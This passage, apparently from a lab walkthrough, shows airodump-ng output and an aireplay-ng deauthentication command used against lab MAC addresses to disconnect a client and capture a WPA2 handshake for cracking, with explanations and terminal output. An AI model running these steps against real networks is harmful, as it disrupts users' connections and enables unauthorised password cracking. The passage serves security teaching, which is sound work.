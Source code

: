 02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

It should take between 1 to 5 minutes before receiving the client information. In our case, it will show like this:
Terminal

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140

Note that the STATION section shows the device's BSSID (MAC) of 02:00:00:00:01:00 that is connected to the access point. This is the connection that we will be attacking. Now we are ready for the next step.

On the second terminal, we will launch the deauthentication attack. Because the client is already connected, we want to force them to reconnect to the access point, forcing it to send the handshake packets. We can break this down into 3 simple steps:

```
Deauthentication packets: The tool aireplay-ng sends deauthentication packets to either a specific client (targeted attack) or to all clients connected to an access point (broadcast attack). These packets are essentially "disconnect" commands that force the client to drop its current Wi-Fi connection.
Forcing a reconnection: When the client is disconnected, it automatically tries to reconnect to the Wi-Fi network. During this reconnection, the client and access point perform the 4-way handshake as part of the reauthentication process.
Capturing the handshake: This is where airodump-ng comes into play because it will capture this handshake as it happens, providing the data needed to attempt the WPA/WPA2 cracking.
```

We can do this with sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2. The -0 flag indicates that we are using the deauthentication attack, and the 1 value is the number of deauths to send. The -a indicates the BSSID of the access point and -c indicates the BSSID of the client to deauthenticate.
Terminal

glitch@wifi:\~$ sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2
19:29:37  Waiting for beacon frame (BSSID: 02:00:00:00:00:00) on channel 6
19:29:38  Sending 64 directed DeAuth (code 7). STMAC: \[02:00:00:00:01:00\] \[ 0| 0 ACKs\]

Now, if we look back on our first terminal, we will see the WPA handshake shown on the top-right of our output as WPA handshake: 02:00:00:00:00:00. All of this information is being saved into our output files.
Terminal

CH  6 \]\[ Elapsed: 1 min \]\[ 2024-11-02 19:30 \]\[ WPA handshake: 02:00:00:00:00:00

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

